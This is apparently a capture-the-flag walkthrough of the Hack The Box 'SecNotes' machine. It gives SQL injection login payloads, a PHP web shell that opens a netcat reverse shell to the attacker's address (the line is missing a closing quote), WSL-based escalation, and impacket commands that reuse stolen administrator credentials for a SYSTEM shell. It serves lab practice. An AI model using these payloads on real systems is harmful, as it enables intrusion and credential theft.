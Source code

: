 # Escalation Path: Windows Subsystem for Linux

### Overview

Using HTB SecNotes  
Involves techniques from [PayloadsAllTheThings Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl)

### Gaining a Foothold

The username parameter is vulnerable to SQLi, when registering a new user use the username `' OR 1=1;#` or
`'OR 1 OR'`. Log in as the new user to see all notes, one of them contains SMB credentials for tyler.

The SMB share is the root directory for the web server on port 8808. Uploading .asp or .aspx files doesn't 
work but .php files do.

Upload a static Windows netcat binary and a basic php shell that will execute the netcat binary

```
# rev.php
<?php system('nc.exe -e cmd.exe 10.10.10.2 4444); ?>
```
Start a netcat listener and navigate to the php shell. This gives us a reverse shell as tyler

### Escalation via WSL

Look for bash.exe/wsl.exe:

```
where /R C:\Windows bash.exe
where /R C:\Windows wsl.exe
```

Run bash.exe to get a linux prompt then upgrade your shell with python:

`python -c 'import pty;pty.spawn("/bin/bash")'`

Do some basic enumeration, check history, sudo -l, etc.

Find the administrator credentials in root history and use impacket tools to get a remote shell as system

```
psexec.py administrator:'password'@10.10.10.97
smbexec.py administrator:'password'@10.10.10.97
wmiexec.py administrator:'password'@10.10.10.97
```
